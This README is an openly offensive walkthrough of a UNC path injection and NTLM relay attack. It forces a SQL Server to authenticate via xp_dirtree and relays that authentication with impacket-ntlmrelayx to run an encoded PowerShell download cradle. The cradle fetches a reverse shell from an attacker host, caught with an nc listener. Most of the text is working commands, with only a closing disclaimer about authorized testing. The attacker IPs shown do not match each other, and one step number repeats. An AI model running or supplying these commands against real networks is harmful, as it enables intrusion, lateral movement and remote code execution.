 # 🎯 UNC Path Injection & NTLM Relay Attack with Impacket

This repository demonstrates a powerful internal network attack technique where we force a victim host to authenticate to a malicious SMB server and relay that NTLM authentication to a second system for **remote code execution**, all **without cracking the hash**.

This method is ideal in environments where:
- A **shared service account** is used on multiple systems.
- **SMB signing is disabled** on the relay target.
- AppLocker or other controls block direct binary execution.

---

## 📌 Objective

Relay a captured **Net-NTLM hash** from a machine (e.g. DC or SQL Server) to another host where the user has **local admin rights**, and gain **code execution** via `ntlmrelayx`.

---

## ⚙️ Environment Setup

- Attacker Machine: Kali Linux
- Victim 1: SQL Server with a service account (e.g. `SQLSVC`)
- Victim 2: Another internal system (e.g. `appsrv01`) where `SQLSVC` is local administrator
- SMB signing is **disabled** on the second target
- Ligolo proxy or reverse shell server is listening

---

## 🔐 UNC Relay Attack

### 1. Base64-encode the PowerShell download cradle

```bash
echo -n "IEX (New-Object Net.WebClient).DownloadString('http://192.168.45.100/shell.ps1')" | iconv -t utf-16le | base64 -w 0; echo
```
- Change the IP at the shell.ps1 file.

**Output:**
```
SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADQANQAuADEANgA0AC8AcwBoAGUAbABsAC4AcABzADEAJwApAA==
```

---

### 2. Launch `ntlmrelayx` to relay the hash and execute the command

```bash
sudo impacket-ntlmrelayx --no-http-server -smb2support -t 172.16.206.151 -c 'powershell -enc SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADQANQAuADEANgA0AC8AcwBoAGUAbABsAC4AcABzADEAJwApAA=='
```

- `--no-http-server`: disables automatic HTTP listener since we serve our own shell script.
- `-smb2support`: required for modern Windows hosts (SMBv2+).
- `-t`: the target machine where code execution will happen.
- `-c`: command to execute on the target (reverse shell loader).

---

### 3. Host your reverse shell payload (`shell.ps1`)

```bash
python3 -m http.server 80
```

Make sure `shell.ps1` contains your PowerShell reverse shell or loader.

---

### 4. Trigger the authentication from victim SQL host

Use the classic **UNC Path Injection** via MSSQL:

```sql
EXEC master..xp_dirtree '\\192.168.1.94\test'
```

This will cause the SQL Server to connect to your SMB listener, and **ntlmrelayx will relay the authentication** to the second machine (`appsrv01`) and execute the reverse shell.

---
### 4. Start a listener for the reverse shell

```bash
rlwrap -cAr nc -lnvp 443

```

---

## 🧠 Notes

- This technique **does not require cracking the Net-NTLM hash**.
- It works only if:
  - The relayed user is **admin** on the target.
  - **SMB signing is disabled** on the target.
- The command being relayed (`-c`) can be anything the user is authorized to run (PowerShell, HTA, etc.)

---

## ⚠️ Disclaimer

This technique is provided **for educational and authorized testing only**. Do not attempt this attack outside a controlled environment where you have explicit permission to do so.

---


